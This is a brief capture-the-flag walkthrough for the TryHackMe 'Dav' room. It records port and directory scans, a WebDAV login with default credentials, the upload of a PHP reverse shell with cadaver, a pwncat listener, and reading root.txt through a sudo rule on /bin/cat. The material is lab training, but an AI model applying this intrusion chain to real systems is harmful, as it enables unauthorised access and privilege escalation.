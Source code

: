 ```yaml
---

title: Walkthrough - Dav
published: true
---
```


Tags: Security.
Description: Boot2root machine for FIT and bsides guatemala CTF.
Difficulty: Easy

[bsidesgtdav](https://tryhackme.com/room/bsidesgtdav)

* * *

## Notes

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), Linux 5.4 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Sony Android TV (Android 5.0) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Android 5.1 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
```

- `gobuster dir -u http://10.10.59.127/ -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -t 100 -x txt,html,php`

Running gobuster finds us a `/webdav` directory. It's a protected folder however. WebDAV is a protocol that provides a framework for users to manipulate documents on a server, such as creating or moving or changing them. 

Find default credentials through google wampp:xampp

Loggin in we get the contents of the directory.

We can use `cadaver` on kali to upload a shell

```
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/bsidesgtdav]
└─$ cadaver http://10.10.112.23/webdav/ 
Authentication required for webdav on server `10.10.112.23':
Username: wampp
Password: 
dav:/webdav/> put ~/scripts/php-reverse-shell.php
Uploading ~/scripts/php-reverse-shell.php to `/webdav/php-reverse-shell.php': Could not open file: No such file or directory
dav:/webdav/> put /home/oskar/scripts/php-reverse-shell.php
Uploading /home/oskar/scripts/php-reverse-shell.php to `/webdav/php-reverse-shell.php':
Progress: [=============================>] 100.0% of 2585 bytes succeeded.
```

- setup pwncat listener and recieve shell `pwncat-cs -lp 6666`

* * * 

## What is the content of user.txt?

![0xskar](/assets/bsidesgtdav01.png)

* * * 

## What is the content of root.txt?

```
(remote) www-data@ubuntu:/home/merlin$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
(remote) www-data@ubuntu:/home/merlin$ sudo cat /root/root.txt
```

* * * 

